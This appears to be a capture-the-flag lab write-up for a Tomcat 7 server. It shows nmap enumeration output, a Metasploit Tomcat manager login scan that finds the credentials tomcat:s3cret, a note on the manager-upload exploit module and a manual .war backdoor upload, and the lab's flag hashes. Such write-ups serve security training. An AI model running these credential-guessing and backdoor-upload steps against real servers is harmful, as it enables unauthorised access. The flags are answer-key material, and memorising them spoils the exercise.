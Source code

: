 ### [ENUMERATION]
    8080/tcp open  http    syn-ack Apache Tomcat/Coyote JSP engine 1.1
    |_http-favicon: Apache Tomcat
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    |_http-server-header: Apache-Coyote/1.1
    |_http-title: Apache Tomcat/7.0.88

    #http://10.10.10.95:8080/

### [EXPLOIT]
    msf6 auxiliary(scanner/http/tomcat_mgr_login) > set user_as_pass true
    user_as_pass => true
    msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhost 10.10.10.95
    rhost => 10.10.10.95
    msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rport 8080
    rport => 8080
    msf6 auxiliary(scanner/http/tomcat_mgr_login) > set blank_passwords  true
    blank_passwords => true
    msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

    [+]10.10.10.95:8080 - Login Successful: tomcat:s3cret

    [+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret

### [EXPLOIT]
    use exploit/multi/http/tomcat_mgr_upload

    user the user/password and set targeruri to /manager
    Alternative can login to the manager and manually upload a .war backdoor

### [FLAGS]
    C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt
    7004dbcef0f854e0fb401875f26ebd00
    #root
    04a8b36e1545a455393d067e772fe90e
